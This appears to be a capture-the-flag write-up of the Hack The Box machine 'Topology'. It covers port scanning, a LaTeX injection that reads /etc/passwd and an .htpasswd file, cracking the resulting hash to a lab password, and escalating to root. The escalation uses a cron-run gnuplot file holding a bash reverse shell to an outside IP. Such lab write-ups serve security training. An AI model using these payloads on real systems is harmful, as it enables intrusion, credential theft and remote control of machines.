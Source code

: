 ```yaml
---
title: HTB | Topology
date: 2023-07-2 14:00:00 -500
categories: [HTB, write-ups]
tags: [htb,red-team,ctf]
img_path: /assets/img/topology
---
```



## Nmap Results

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-11 14:32 PDT
Nmap scan report for 10.10.11.217
Host is up (0.079s latency).
Not shown: 65533 closed tcp ports (conn-refused)

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 dcbc3286e8e8457810bc2b5dbf0f55c6 (RSA)
|   256 d9f339692c6c27f1a92d506ca79f1c33 (ECDSA)
|_  256 4ca65075d0934f9c4a1b890a7a2708d7 (ED25519)

80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

 TLD = topology.htb

Found: http://topology.htb/images/

![1](1.png)


## Gobuster:
```
 gobuster dir --url http://topology.htb/ --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html
```

![GoBuster Resaults](Pasted image 20230611163846.png)
![Add Latex Domain to hosts](Pasted image 20230611145813.png)

## latex.topology.htb

Found a very interesting target: [http://latex.topology.htb/equation.php](http://latex.topology.htb/equation.php)

Interesting URL from the Latex Generator
`http://latex.topology.htb/equation.php?eqn=%5Cfrac%7Bx%2B5%7D%7By-3%7D&submit=`

![Desktop](Pasted image 20230611153638.png)


**pdfTeX, Version 3.14159265**

Found the payload from here:[https://0day.work/hacking-with-latex/](https://0day.work/hacking-with-latex/)


The Following command will create files in /tempfiles
```
\newwrite\outfile, \openout\outfile=test2.php test
```
![writing to temp file example](Pasted image 20230618144255.png)

A `,` will concatenate commands allowing them to run. Unfortunatly Were unable to write to any of the files so we went looking for alternative path. We discovered that Math mode is enabled -> `$` excapes the special chars

We found that the following command will display full text of files as a generated pdf

`$\lstinputlisting{/etc/passwd}$`

![RCE](Pasted image 20230618155313.png)

**vdaisley - user /home/vdaisley**

Since dev.topology is protected by a htaccess file, I checked the config for the default sites: `/etc/apache2/sites-available/000-default.conf`

![default-sites](Pasted image 20230618155910.png)

The htaccess file was not being stored in `/etc/apache2/.htaccess` but instead was located in: `/var/ww/dev/`

`$\lstinputlisting{/var/www/dev/.htpasswd}$`

![htaccess](Pasted image 20230618155953.png)

Password is being stored in a Apache MD5 salt

## Hashcat - User Level Access:
![hascat](Pasted image 20230618161158.png)

`$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0:calculus20`
* un: vdaisley
* pw: calculus20

Got access to the dev site, attempted SSH and we were in:

![ssh](Pasted image 20230618173325.png)

## Privilage Escalation

Ended up finding the *root.txt* by running **pspy65** and found a cron job that would run any file name with the .plt

- started a webserver in the tools dir: ~/tools

![](Pasted image 20230618171543.png)

- used wget to copy over and run pspy65:
![](Pasted image 20230618172326.png)

![](Pasted image 20230618172427.png)

Interesting command running on cron: 

![](Pasted image 20230618172451.png)

seems to want to run any file with the .plt extension from the dir: /opt/gnuplot

We have wright permissions!

![](Pasted image 20230618172532.png)

Created a .plt that included the following reverse shell

```
system "bash -c '/bin/bash -i >& /dev/tcp/10.10.14.94/9001 0>&1'"
```

- had to include bash -c '/bin/bash to get it to run

Fired up NetCat and waited
![](Pasted image 20230618173412.png)

![](Pasted image 20230618173436.png)
